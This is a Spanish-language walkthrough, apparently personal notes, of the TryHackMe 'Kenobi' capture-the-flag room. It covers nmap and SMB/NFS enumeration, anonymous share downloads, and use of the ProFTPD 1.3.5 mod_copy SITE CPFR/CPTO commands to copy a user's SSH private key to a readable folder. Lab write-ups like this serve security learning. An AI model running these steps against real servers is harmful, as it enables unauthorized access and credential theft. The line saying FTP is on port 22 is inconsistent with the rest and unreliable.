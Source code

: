 https://tryhackme.com/room/kenobi

## Checar los puertos abiertos y checar los samba shares

- nmap 10.10.56.240 -vvv   //para ver los puertos abiertos del servidor
- //samba se usa para acceder a recursos, printers, etc en internet o intranet
- //se puede usar un script de nmap para enumerar los samba shares
- nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.56.240
- //se encuentran 3 ( IPC Service, hidden y printer) con acceso de read/write, read/write, none

----

## Entro a los shares 

- smbclient //10.10.221.228/anonymous
- smbget -R smb://10.10.221.228/anonymous para bajar el contenido directo
- cat log.txt para ver que trae el log file
![image](https://user-images.githubusercontent.com/44788583/148824837-9c9a2abc-9706-41e5-aa1f-d50df520dafb.png)
FTP en puerto 22

----

## Enumerar puerto 111 rpcbind

- nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.226.148

![image](https://user-images.githubusercontent.com/44788583/149047664-f113a09e-5c64-4aa7-9aa1-68ac71587920.png)

------

## Me conecto por netcat al puerto 21 que es el default de FTP , Pro FTPd es un servidor FTP open source 

![image](https://user-images.githubusercontent.com/44788583/149048118-22910ea9-87d1-49e9-8ac2-3d7f392c6bac.png)
 Ahí se puede ver que la versión es 1.3.5 
 
 - Ahora se buscan los exploits como si fuera xploit db con el siguiente comando: searchsploit proftpd 1.3.5

searchsploit proftpd 1.3.5

![image](https://user-images.githubusercontent.com/44788583/149048266-167fb787-38f1-4cf7-99c3-745367d40c55.png)

![image](https://user-images.githubusercontent.com/44788583/149048768-a7280eb2-111c-4eb8-80c7-91a96366ffc7.png)

-Se encuentran 4 posibles xploits. 3 de 1.3.5 específico y 1 de 1.3.x

![image](https://user-images.githubusercontent.com/44788583/149190534-0b4c6ed4-c77e-41f8-a1af-7dce81601728.png)

- nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.56.240
- Se pueden ver exploits con mod_copy que usan los comandos SITE CPFR and SITE CPTO  que copian archivos y carpetas de un lugar a otro. El servicio FTP está corriendo como el usuario Kenobi y debe haber un ssh key para ese usuario.

---------
 
## Nos metemos con netcat de nuevo y vemos el usuario de kenobi en home/kenobi

- nc 10.10.137.58 21 conexión por netcat en puerto 21
- Ahora se copiara el id_rsa a la carpeta /var/tmp por medio de los siguientes comandos: SITE CPFR /home/kenobi/.ssh/id_rsa
 y luego SITE CPTO /var/tmp/id_rsa

![image](https://user-images.githubusercontent.com/44788583/149191989-9182ccc3-4bed-4e9a-b274-4ec34d2487a6.png)

